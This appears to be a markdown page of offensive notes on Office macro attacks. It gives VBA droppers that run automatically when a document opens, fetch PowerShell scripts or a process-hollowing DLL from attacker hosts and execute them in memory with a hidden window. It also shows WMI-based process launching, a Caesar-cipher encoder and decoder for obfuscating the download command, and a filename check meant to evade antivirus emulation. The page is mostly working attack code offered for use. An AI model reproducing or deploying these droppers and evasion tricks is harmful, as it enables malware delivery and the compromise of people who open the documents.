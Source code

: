 # Reflective Code Execution in Client Side Attacks

### Microsoft Word/Excel use VBA

*** Flagged cause of Powershell command.  Basic VBA dropper ***


### This is reflective poewrshell.  This should download ps1 and run it in memory but this gets flagged.  

``` VBA

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.50.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub


######################### OR ############################################ 


Sub MyMacro()
    Dim str As String
    str = "powershell.exe $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.196:4443/DLL_process_hollow.dll'); $assem = [System.Reflection.Assembly]::Load($data); $class = $assem.GetType('ReflectiveDLLCSharp.Class1'); $method = $class.GetMethod('runner');$method.Invoke(0, $null)"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

```

<br><br><br><br><br>


## Using WMIPRVSE.exe to DECHAIN from powershell

```  VBA

Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub

```


## Obfuscation methods

**Reverse string** 

``` VBA

Function bears(cows)
    bears = StrReverse(cows)
End Function

```

**Ceaser Cipher (This didnt work for MS Defender)**
<br><br>
Use powershell to encode the text as decimal<br>

``` powershell

$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output | clip

```
<br><br>

<Br><br>
**Functions to deceaser cipher**

``` powershell
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function
```

**Only run macro if filename matches intended filename.  Sometimes antivirus renamems the file for emulation**
<br><br>

``` VBA

Sub MyMacro()

If ActiveDocument.Name = Nuts("085128116066063117128116126") Then
**PUT MACRO CODE UNDER ABOVE LINE**
End If

end Sub

```

